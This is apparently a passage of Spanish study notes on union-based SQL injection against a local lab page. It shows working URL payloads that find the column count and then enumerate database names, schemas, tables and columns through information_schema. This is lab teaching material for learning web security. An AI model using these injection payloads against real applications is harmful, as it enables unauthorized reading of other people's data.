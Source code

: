 Para conseguir ver las columnas de una tabla hay que hacer fuzzing a esta, bajando la cantidad de columnas, en este caso como la query pregunta solo por el username, es decir que solo tenemos un order by 1
![[Pasted image 20240217225702.png]]
Una vez que sabemos la cantidad de columnas podemos trabajar con unión select, ya que ahora podemos hacer lo siguiente: 
![[Pasted image 20240217230821.png]]
podemos ver que se agrega una fila nueva dentro de la query, por lo que podemos poner lo que quieramos dentro de esta query.
![[Pasted image 20240217231003.png]]
para ver nuestra inyección tenemos que poner el id de un usuario que no existe, ya que si lo hacemos con un usuario existente aparecerá el nombre del usuario existente.
como vemos test ahora podemos decir que no muestre el nombre de la base de dato que se esta utilizando: 
```
http://localhost/searchUsers.php?id=4' union select database()-- -
```
![[Pasted image 20240217231228.png]]
Aquí otra forma de representar lo mismo:
![[Pasted image 20240217232603.png]]
en este caso esta haciendo un union select de la base de datos y el usuario que esta corriendo la base de datos. 
ahora podemos enumerar todas las bases de datos existentes en esta maquina, haciendo la siguiente query: 
```
http://localhost/searchUsers.php?id=4' union select schema_name from information_schema.schemata-- -
```
![[Pasted image 20240217233041.png]]
Pero tenemos un problema, ya que solo nos muestra 1 base de datos hay algunas formas de poder mostrar las siguientes, primero lo haremos con limits.
```
http://localhost/searchUsers.php?id=4' union select schema_name from information_schema.schemata limit 0,1-- -
```
En este caso el 0 es el espacio que quiere mostrar en este caso seria information_schema, y el 1 es la cantidad de datos que se quieren mostrar en pantalla. 
![[Pasted image 20240217233550.png]]
![[Pasted image 20240217233602.png]]
Esta es la primera forma, pero en realidad la mejor forma es jugar con un group_concat() de la siguiente forma: 
```
http://localhost/searchUsers.php?id=4' union select group_concat(schema_name) from information_schema.schemata-- -
```
![[Pasted image 20240217233719.png]]
Como ya sabemos el nombre de las bases de datos que existen, podemos ahora enumerar las tablas que tenga la base de datos que nos interesa: 
```
http://localhost/searchUsers.php?id=4' union select group_concat(table_name) from information_schema.tables where table_schema='Hack4u'-- -
```
![[Pasted image 20240217234141.png]]
En este caso tenemos solo la tabla users dentro de la base de datos Hack4u. 
Ahora que sabemos la tabla que existe podemos ver ahora las columnas que tiene esta tabla, esto se hace con la siguiente query: 
```
http://localhost/searchUsers.php?id=4' union select group_concat(column_name) from information_schema.columns where table_schema='Hack4u' and table_name='users'-- -
```